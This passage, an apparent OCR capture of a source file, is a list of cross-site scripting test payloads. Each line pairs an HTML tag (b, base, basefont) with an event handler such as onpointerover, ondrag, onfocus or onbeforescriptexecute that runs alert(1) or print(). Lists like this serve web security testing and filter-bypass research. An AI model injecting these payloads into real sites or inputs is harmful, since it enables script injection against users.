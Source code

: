 &lt;b onpointerout=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointerover=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointerrawupdate=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointerup=alert(1)&gt;XSS&lt;/b&gt;
&lt;base draggable="true" ondrag="alert(1)"&gt;test&lt;/base&gt;
&lt;base draggable="true" ondragend="alert(1)"&gt;test&lt;/base&gt;
&lt;base draggable="true" ondragenter="alert(1)"&gt;test&lt;/base&gt;
&lt;base draggable="true" ondragleave="alert(1)"&gt;test&lt;/base&gt;
&lt;base draggable="true" ondragstart="alert(1)"&gt;test&lt;/base&gt;
&lt;base id=x tabindex=1 onactivate=alert(1)&gt;&lt;/base&gt;
&lt;base id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/base&gt;
&lt;base id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/base&gt;&lt;input autofocus&gt;
&lt;base id=x tabindex=1 ondeactivate=print()&gt;&lt;/base&gt;&lt;input id=y autofocus&gt;
&lt;base id=x tabindex=1 onfocus=alert(1)&gt;&lt;/base&gt;
&lt;base id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/base&gt;
&lt;base onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;base onbeforecopy="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onbeforecut="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onbeforepaste="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;base onblur=alert(1) tabindex=1 id=x&gt;&lt;/base&gt;&lt;input autofocus&gt;
&lt;base onclick="alert(1)"&gt;test&lt;/base&gt;
&lt;base oncontextmenu="alert(1)"&gt;test&lt;/base&gt;
&lt;base oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;base oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;base ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/base&gt;
&lt;base onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/base&gt;&lt;input autofocus&gt;
&lt;base onkeydown="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onkeypress="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onkeyup="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onmousedown="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmouseenter="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmouseleave="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmousemove="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmouseout="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmouseover="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmouseup="alert(1)"&gt;test&lt;/base&gt;
&lt;base onmousewheel=alert(1)&gt;requires scrolling
&lt;base onpaste="alert(1)" contenteditable&gt;test&lt;/base&gt;
&lt;base onpointerdown=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerenter=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerleave=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointermove=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerout=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerover=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerrawupdate=alert(1)&gt;XSS&lt;/base&gt;
&lt;base onpointerup=alert(1)&gt;XSS&lt;/base&gt;
&lt;basefont draggable="true" ondrag="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont draggable="true" ondragend="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont draggable="true" ondragenter="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont draggable="true" ondragleave="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont draggable="true" ondragstart="alert(1)"&gt;test&lt;/basefont&gt;
&lt;basefont id=x tabindex=1 onactivate=alert(1)&gt;&lt;/basefont&gt;
&lt;basefont id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/basefont&gt;
&lt;basefont id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/basefont&gt;&lt;input autofocus&gt;
&lt;basefont id=x tabindex=1 ondeactivate=print()&gt;&lt;/basefont&gt;&lt;input id=y autofocus&gt;
&lt;basefont id=x tabindex=1 onfocus=alert(1)&gt;&lt;/basefont&gt;
&lt;basefont id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/basefont&gt;
&lt;basefont onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;basefont onbeforecopy="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onbeforecut="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onbeforepaste="alert(1)" contenteditable&gt;test&lt;/basefont&gt;
&lt;basefont onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;basefont onblur=alert(1) tabindex=1 id=x&gt;&lt;/basefont&gt;&lt;input autofocus&gt;